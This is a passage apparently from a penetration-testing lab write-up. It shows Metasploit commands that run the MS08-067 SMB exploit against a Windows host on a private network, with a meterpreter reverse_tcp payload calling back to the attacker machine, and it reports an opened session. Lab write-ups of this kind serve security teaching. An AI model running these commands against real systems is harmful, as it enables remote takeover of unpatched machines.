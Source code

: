 
### 2. 💥 Exploitation
- Launch Metasploit Framework

```bash
msfconsole
```

![Launching Metasploit](assets/kali-run-metasploit.png)

- Configure Exploit Parameters

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.1.201
set LHOST 192.168.1.183
set RPORT 445
exploit
```

![Metasploit exploit configuration](assets/kali-attack-set-up.png)

**Meterpreter Session Opened**
![Meterpreter session opened](assets/kali-pen-test-successful.png)
